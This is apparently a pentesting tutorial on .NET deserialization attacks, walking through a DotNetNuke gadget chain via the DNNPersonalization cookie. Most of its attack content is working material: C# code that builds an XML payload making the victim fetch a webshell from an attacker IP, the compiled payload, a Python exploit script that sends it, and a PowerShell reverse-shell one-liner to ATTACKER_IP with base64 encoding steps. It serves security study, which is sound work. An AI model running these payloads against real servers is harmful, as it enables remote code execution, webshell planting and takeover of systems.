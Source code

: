 ```yaml
---
title: Pwning serialization
tags:
  - advanced
  - web-app
  - pentesting
  - serialization
  - dotnet
  - ysoserial
---
```


This article covers serialization vulnerabilities in web applications, particularly when web
applications deserialize arbitrary attacker input, converting that input into objects in process
memory, and how an attacker can chain deserialization gadgets to gain code execution.

## What is serialization?

Serialization describes the concept of converting data to an agreed upon format, transmitting it to
a consumer of said data, and then the consumer of that data extracting the information from the
serialized packet using the defined format to receive the original data. A lot of different formats
for data can be considered serialization, for example:

- Base64 encoding
- JSON
- XML
- etc.

## DotNetNuke

Subsequent paragraphs will discuss some vulnerabilities discovered and exploited in the
[DotNetNuke](<https://en.wikipedia.org/wiki/DNN_(software)>) web application, written in the .NET
Framework. More in-depth whitepapers and presentations related to deserialization attacks against
.NET's
[BinaryFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=netframework-4.7.2)
and
[XmlSerializer](https://learn.microsoft.com/en-us/dotnet/standard/serialization/introducing-xml-serialization)
are provided in the following resources:

- [Are you my type? - BlackHat](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
- [JSON Attacks - BlackHat](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)

### The vulnerability

The gist of DotNetNuke's vulnerability discussed in the presentation above is that, provided a
cookie named `DNNPersonalization` in XML format to a nonexistent API endpoint, the DotNetNuke user
profile business logic would attempt to deserialize the contents and convert them to objects for
storage in a hash table, likely to load particular user profile information and display it later.

The most interesting part about this vulnerability is that no type checking is conducted on the
object types stored within the XML data before deserialization. If some type checking _was_ done
prior to deserialization, it's likely this vulnerability would be much more difficult to abuse.

### Gaining code execution

Plenty of gadgets are mentioned in the "JSON Attacks" presentation, but the prime example used to
gain code execution is the
[ObjectDataProvider](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.7.2)
class. The **ObjectDataProvider** class allows us to wrap an arbitrary object and call its methods,
as well as provide parameters for these methods. This class is used to created binding sources,
objects that provide programmers with relevant data and are bound to a target object, e.g. a
TextBox, ComboBox, etc., to display data.

For code execution, since we can't call arbitrary methods of existing classes directly, we use the
**ObjectDataProvider** class as a gadget to load and execute classes with methods of interest, e.g.
the **DotNetNuke.Common.Utilities.FileSystemUtils.PullFile** method that DotNetNuke uses to download
files from arbitrary internet locations.

Unfortunately, during deserialization with the **XmlSerializer** class, while the
**ObjectDataProvider** class is recognized by the deserialization routine, **XmlSerializer** doesn't
understand the object reference to the **FileSystemUtils** within the class attribute. To remedy
this, we can use another gadget, the
[ExpandedWrapper](https://learn.microsoft.com/en-us/dotnet/api/system.data.services.internal.expandedwrapper-2?view=netframework-4.7.2)
class, to provide a generic class for deserialization by the **XmlSerializer** class. Ultimately,
this enables us to deserialize an **ObjectDataProvider** class with our specified target class,
**FileSystemUtils**, and our method(s), for code execution, **PullFile**.

Below is a snippet of C# code targeting the .NET Framework, using these gadgets to generate XML that
can be deserialized by the **XmlSerializer** class to download arbitrary files to the host via HTTP:

```csharp
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using System.Collections;
using System.Data.Services.Internal;
using System.Windows.Data;

namespace ExpWrapSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            Serialize();
        }
        public static void Serialize()
        {
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
            myExpWrap.ProjectedProperty0.MethodName = "PullFile";
            myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.45.156/webshell.aspx");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/webshell.aspx");


            Hashtable table = new Hashtable();
            table["myTableEntry"] = myExpWrap;
            String payload = XmlUtils.SerializeDictionary(table, "profile");
            TextWriter writer = new StreamWriter("C:\\Windows\\Temp\\Payload.txt");
            writer.Write(payload);
            writer.Close();

            Console.WriteLine("Done!");
        }

    }
}
```

After building and executing the above C# application, an XML `Payload.txt` file will be generated
in `C:\Windows\Temp`. Upon deserialization of this payload with **XmlSerializer**, the victim host
deserializing the payload will download `webshell.aspx` to its web root from the attacker host
specified in the payload.

Below is an example of the compiled payload:

```txt
<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.156/webshell.aspx</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/webshell.aspx</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

### Getting a reverse shell

With our ability to pull arbitrary files from remote locations, we host the `cmdasp.aspx` webshell
file on our attacker host and coerce the victim host to download the webshell to its web root. We
then execute a PowerShell reverse shell via the uploaded web shell on the victim host using our
browser, gaining an interactive shell with the victim host as the web server's user.

To find the `cmdasp.aspx` file on our Kali Linux installation, use the invoke the following in Bash

```bash
locate cmdasp.aspx
```

The following Python script interacts with the DotNetNuke web application to abuse the serialization
vulnerability discussed, using our payload generated in previous sections:

```python
import http.client
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1
requests.packages.urllib3.disable_warnings()
API_ENDPOINT = "/dotnetnuke/doesnotexist"


class Solution:
    def __init__(self, url: str, lhost: str, filename: str) -> None:
        self.s = requests.Session()
        self.url = f"{url.rstrip("/")}{API_ENDPOINT}"
        self.lhost, self.filename = lhost, filename

    def solve(self) -> None:
        # Provide malicious cookie to target DNN serialization bug,
        # triggering PullFile to download 'self.filename' from
        # 'self.lhost'
        req = requests.Request(
            "GET",
            self.url,
            cookies={
                "DNNPersonalization": '<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://{lhost}/{filename}</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/{filename}</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>'.format(
                    lhost=self.lhost, filename=self.filename
                )
            },
        )
        prepped = self.s.prepare_request(req)
        self.s.send(prepped, verify=False)


def main():
    parser = ArgumentParser()
    parser.add_argument("-u", "--url", dest="url")
    parser.add_argument("-lh", "--lhost", dest="lhost")
    parser.add_argument("-f", "--filename", dest="filename")
    args = parser.parse_args()
    s = Solution(args.url, args.lhost, args.filename)
    s.solve()


if __name__ == "__main__":
    main()
```

After the webshell is uploaded to the target host, we can visit it at
`http://dnn/dotnetnuke/cmdasp.aspx`. From
[Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1),
we can execute the following PowerShell one-liner to initiate a reverse shell over TCP with our
attacker host:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('{ATTACKER_IP}',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

That's a lot of text and special characters. We can invoke the following in Bash to convert our
PowerShell one-liner to PowerShell-friendly Base64 encoding:

```bash
iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
```

Finally, we can execute our reverse shell payload on the target webshell with:

```cmd
powershell.exe -EncodedCommand {Base64Payload}
```

## ysoserial

In the above sections we discussed manually constructing our deserialization payloads, however,
security researchers have been so gracious as to construct applications that can automatically
generate these payloads with known, working gadgets. **ysoserial** comes in two (2) different
flavors that target both Java and .NET:

- [ysoserial - Java](https://github.com/frohoff/ysoserial)
- [ysoserial - C#](https://github.com/pwntester/ysoserial.net)

## ManageEngine Applications Manager

**ManageEngine**, another regular offender, amongst its various SQL injection vulnerabilities, also
had an unauthenticated deserialization of arbitrary Java objects that could be accessed by the Java
Runtime Environment (JRE) from remote hosts. This vulnerability is explained and abused in the
article below:

- [ManageEngine Applications Manager Deserialization Unauthenticated RCE](https://blog.jamesotten.com/post/applications-manager-rce/)
